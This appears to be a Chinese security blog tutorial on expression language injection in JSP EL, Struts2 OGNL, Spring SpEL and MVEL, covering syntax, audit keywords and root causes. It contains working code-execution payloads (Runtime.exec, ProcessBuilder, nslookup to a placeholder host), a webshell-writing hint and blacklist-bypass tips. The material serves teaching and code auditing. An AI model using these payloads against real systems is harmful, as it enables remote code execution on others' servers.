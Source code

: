 # 表达式注入初探


## 简介

2013年4月15日Expression Language Injection词条在OWASP上被创建，而这个词的最早出现可以追溯到2012年12月的《Remote-Code-with-Expression-Language-Injection》一文，在这个paper中第一次提到了这个名词。









## 常用的表达式语言



### JSP—JSTL_EL

#### 基础

EL表达式(表达式语言)是一种**在JSP中内置的语言**(也就是说所有的Java Web服务都必然会支持这种表达式。但是由于各家对其实现的不同，也导致某些漏洞可以在一些Java Web服务中成功利用，而在有的服务中则是无法利用)，可以用作用户访问页面的上下文以及不同作用域的对象，取得对象属性值或者执行简单的运算和判断操作：获取数据、执行运算、获取Web开发常用对象、调用Java方法。



**JSP四大作用域：**

- page：只在一个页面保存数据[`javax.servlet.jsp.PageCotent`]
- request：只在一个请求中保存数据[`java.servlet.httpServletRequest`]
- session：在一次会话中保存数据，仅供单个用户使用[`javax.servlet.http.HttpSession`]
- application：在整个服务器中保存数据，全部用户共享[`javax.servlet.ServletContenxt`]



**EL基础语法：**

在JSP中，用`${}`表示此处为EL表达式。

在未指定作用域时，依次向后寻找；

在指定了作用域时，在范围内寻找：如`${requestScope.name}`表示在request作用域范围内获取name变量。



**获取对象属性：**

一种方法，为：`${对象.属性}`，如`${param.name}`

另一种为，：`[]`符号，如：`${param[name]}`，当属性名存在特殊字符时需要使用此方式



**EL表达式也可以实例化Java的内置类：**

```jsp
//如 Runtime.calss会执行系统命令

<body>
    ${Runtime.getRuntime().exec("calc")}
</body>

```



```jsp
<spring:message text="${/"/".getClass().forName(/"java.lang.Runtime/").getMethod(/"getRuntime/",null).invoke(null,null).exec(/"calc/",null).toString()}">
</spring:message>
```





简答来说，EL表达式是Java代码的简化版，用户可以通过可控的输入注入一段EL表达式执行代码。但用户难以控制EL表达式进行表达式注入。





#### 渗透思路

获取webroot路径，exec执行命令echo写入一句话。











### Struts2—OGNL



表达式格式：

```bash
@[类全名（包括包路径）]@[方法名 | 值名]，例如：
@java.lang.String@format('foo %s', 'bar')
```



基本用法：

```java
ActionContext AC = ActionContext.getContext();
Map Parameters = (Map)AC.getParameters();
String expression = "${(new java.lang.ProcessBuilder('calc')).start()}";
AC.getValueStack().findValue(expression))
```



相关漏洞：s2-009、s2-012、s2-013、s2-014、s2-015、s2-016，s2-017、。。。



### Spring—SPEL

SPEL（Spring表达式语言），是Spring框架专有的EL表达式

SpEL使用 `#{…} `作为定界符，所有在大括号中的字符都将被认为是 SpEL表达式，我们可以在其中使用运算符，变量以及引用bean，属性和方法



#### **基本用法：**

```jsp
//在jsp页面中可以使用el表达式代替<%=%>，之间访问java对象。

String expression = "T(java.lang.Runtime).getRuntime().exec(/"calc/")";
String result = parser.parseExpression(expression).getValue().toString();
```

1.使用量表达式：

```java
"#{Hello world}"
```

2.使用java代码new/instance of
```java
Expression exp = parsee.parserExpression("new Spring('hello')");

```

3.使用T(type)

表示java.lang.Class实例：

```java
parse.parseExpression(T(Integer).MAX_VALUE)
```

使用T()运算符会调用类作用域的方法和常量。例如，在SpEL中使用Java的Math类，我们可以像下面的示例这样使用T()运算符：

```java
#{T(java.lang.Math)}
```

T()运算符的结果会返回一个java.lang.Math类对象。




#### **代码审计关键字：**

```
org.springframework.expression.spel.standard
SpelExpressionParser
parserExpress
expression.getValue()
expression.setValue()
...
```







#### SpEL漏洞

Spring为SpEL提供了两套不同的接口，分别是：

- SimpleEvaluationContext（更安全一些，推荐使用）
- StandardEvaluationContext：包含了SpEL的所有功能





**漏洞原因：**

开发人员未对用户输入进行处理就直接通过解析引擎对Spel继续解析。一旦用户能够控制解析的SpEL语句，便可以通过反射的方式构造代码执行的SpEL语句，从而达到RCE的目的。



例如：

```java
import org.springframework.expression.EvaluationContext;
import org.springframework.expression.Expression;
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.spel.standard.SpelExpressionParser;
import org.springframework.expression.spel.support.StandardEvaluationContext;

public class TTTTT {
    public static void main(String []args) throws Exception {
        String expr = "T(Runtime).getRuntime.exec(\"calc.exe\")";

        ExpressionParser  parser = new SpelExpressionParser();
        EvaluationContext evaluationContext = new StandardEvaluationContext();
        Expression expression = parser.parseExpression(expr);
        System.out.println(expression.getValue(evaluationContext));


    }
}

```



![](https://image.geoer.cn/img/image-20220120172956738.png)



**常用POC：**

```
${255*255}

T(Thread).sleep(10000)

T(java.lang.Runtime),getRuntime().exec('命令')
T(java.lang.Runtime),getRuntime().exec('nslookup xxxxx.com')

new java.lang.ProcessBuilder("命令").start()
new java.lang.ProcessBuilder("nslookup xxxxx.com").start()

#this.getClass().forName('java.lang.Runtime').getRuntime().exec('nslookup xxxxx.com')
```



需要绕过黑名单校验，对于急于正则的匹配绕过是很简单的：

- 利用反射于拆分关键字构造Payload
- 利用ScriptEngineManner









### Elasticsearch——MVEL



基本用法：

```java
java import org.mvel.MVEL;

public class MVELTest {
    public static void main(String[] args) { String expression = "new java.lang.ProcessBuilder(/"calc/").start();";
    Boolean result = (Boolean) MVEL.eval(expression, vars);
    }
}
```









## 参考文章



[(57条消息) Java 安全-手把手教你SPEL表达式注入_4ct10n-CSDN博客_spel表达式注入](https://blog.csdn.net/qq_31481187/article/details/108025512)

[Spring-data-commons(CVE-2018-1273)漏洞分析 - FreeBuf网络安全行业门户](https://www.freebuf.com/vuls/172984.html)







---

> 作者: [剑胆琴心](http://shuai06.github.io)  
> URL: https://shuai06.github.io/%E8%A1%A8%E8%BE%BE%E5%BC%8F%E6%B3%A8%E5%85%A5/  

